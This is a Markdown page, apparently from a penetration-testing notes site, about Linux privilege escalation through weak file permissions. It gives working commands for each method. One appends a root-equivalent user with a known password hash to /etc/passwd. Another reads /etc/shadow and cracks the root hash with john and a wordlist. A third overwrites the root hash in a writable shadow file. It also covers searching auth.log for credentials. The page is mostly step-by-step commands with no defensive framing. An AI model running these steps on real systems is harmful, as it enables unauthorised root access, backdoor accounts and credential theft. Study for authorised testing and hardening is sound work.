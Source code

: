 ```yaml
---
title: Weak File Permission
parent: Method (Linux)
layout: default
nav_order: 1
---
```


Useful command (writable file, readable file, writable folder):\
`find /etc -maxdepth 1 -writable -type f`\
`find /etc -maxdepth 1 -readable -type f`\
`find / -executable -writable -type d 2> /dev/null`

## /etc/passwd
1. Verify the permission:\
   `ls -l /etc/passwd`
2. Generate a password hash:\
   `openssl passwd "password"`
3. Edit the file and change the root's second field(x) to the hash. Alternatively create a new user by appending a new row:\
   `echo "newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash" >> /etc/passwd`
4. Use `su` and type in the password

## /etc/shadow
**If world readable:**
1. Check permission using\
   `ls -l /etc/shadow`
2. Get the password for root:\
   `head -n 1 /etc/shadow`
3. Save the hash to a file:\
   `echo '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVl aXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0' > hash.txt`
4. Crack using john:\
   `john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
5. Use `su` and type in the password cracked.

**If world writable:**
1. Check permission using\
   `ls -l /etc/shadow`
2. Copy etc/shadow as a backup:\
   `cp /etc/shadow /tmp/shadow`
3. Generate a new sha512 hash:\
   `mkpasswd -m sha-512 newpassword`
4. Edit /etc/shadow for root and replace our hash generated.
5. Use `su` and type in the password cracked.

## /var/log/auth.log
1. Check permission:\
   `ls -la /var/log/auth.log`
2. If allowed to read,\
   `cat /var/log/auth.log`\
   Might contain login credentials.